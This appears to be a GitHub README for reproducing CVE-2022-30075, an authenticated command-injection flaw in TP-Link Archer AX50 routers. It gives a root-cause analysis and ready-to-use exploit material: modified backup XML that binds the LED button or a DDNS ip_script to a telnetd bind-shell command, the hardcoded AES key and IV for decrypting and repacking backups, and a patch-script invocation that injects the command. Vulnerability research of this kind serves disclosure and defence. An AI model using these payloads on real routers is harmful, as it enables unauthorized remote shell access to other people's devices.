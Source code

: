 # description

Reproduce CVE-2022-30075.

# status

* [x] Root cause analysis

* [x] Patch script

* [ ] Reproduce (due to the restore function triggering nvram -> not emulate yet)

# root cause analysis

## press the LED button

The root cause lies in the backup & restore function of the web portal. Encrypted XML files within the backup contains various configurations.
Upon decryption of `ori-backup-user-config.bin`, a child element is found, binding the LED button's function to `/lib/led_switch`. 

```xml
<button name="led_switch">
<action>pressed</action>
<button>ledswitch</button>
<handler>/lib/led_switch</handler>
</button>
```

This vulnerability can be exploited to spawn a bind shell with `telnetd`:

```xml
<button name="exploit">
<action>pressed</action>
<button>ledswitch</button>
<handler>/usr/sbin/telnetd -l /bin/login.sh</handler>
</button>
```

After repacking the modified configurations, the restore function can be used. Upon reboot, pressing the LED button will execute the injected command,
enabling a telnet connection to the router for shell access.

## auto trigger via DDNS

[Detecting WAN IP with script](https://openwrt.org/docs/guide-user/services/ddns/client#detecting_wan_ip_with_script)

The injected command can be automatically triggered without pressing the LED button by exploiting the DDNS function. 
This function is primarily designed to update the IP address across different networks and often includes the capability to execute scripts.

```xml
<ddns>
    <service name="dyndns">
        <enabled>off</enabled>
        <retry_times>5</retry_times>
        <force_unit>hours</force_unit>
        <ip_network>wan</ip_network>
        <service_name>dyndns.org</service_name>
        <ip_source>network</ip_source>
        <retry_interval>60</retry_interval>
        <retry_unit>seconds</retry_unit>
        <check_unit>hours</check_unit>
        <check_interval>1</check_interval>
        <force_interval>72</force_interval>
        <interface>wan</interface>
    </service>
</ddns>
```

Thankfully, the script is typically included in the backup XML, allowing for the placement of the injected command there.

```xml
<ddns>
    <service name="pwn">
        <enabled>on</enabled>
        <interface>internet</interface>
        <ip_source>script</ip_source>
        <ip_script>/usr/sbin/telnetd -l /bin/login.sh</ip_script>
        <check_interval>1</check_interval>
        <check_unit>hours</check_unit>
        <retry_interval>60</retry_interval>
        <retry_times>5</retry_times>
        <retry_unit>seconds</retry_unit>
        <force_interval>72</force_interval>
        <force_unit>hours</force_unit>
    </service>
</ddns>
```

## backup file 

Below is the structure of the backup file.

```mermaid
flowchart TD
    A[ori-backup-user-config.xml] --> |AES Encrypt| B[ori-backup-user-config.bin];
    C[ori-backup-router-config.xml] --> |AES Encrypt| D[ori-backup-router-config.bin];
    E[ori-backup-ap-config.xml] --> |AES Encrypt| F[ori-backup-ap-config.bin];
    G[ori-backup-certificate.xml] --> |AES Encrypt| H[ori-backup-certificate.bin];
    B & D & F & H --> I;
    J[md5sum] --> K{zlib compress};
    I{tar compress} --> K;
    K --> |AES Encrypt| L[backup-Archer AX50-2024-04-19.bin];
```

The AES mode used here is CBC with the following key and IV employed at all stages:

```
Key: 2EB38F7EC41D4B8E1422805BCD5F740BC3B95BE163E39D67579EB344427F7836
IV:  360028C9064242F81074F4C127D299F6
```

These can be easily retrieved using `strings squashfs-root/usr/lib/lua/luci/model/crypto.lua`.

# patch script

This script is used to inject a command as a DDNS service into the backup file.

```sh
./inject.py backup-Archer\ AX50-2024-04-19.bin '/usr/sbin/telnetd -l /bin/login.sh'
```

# refs

* [Tp-Link Archer AX50 Authenticated RCE (CVE-2022-30075)](https://github.com/aaronsvk/CVE-2022-30075)
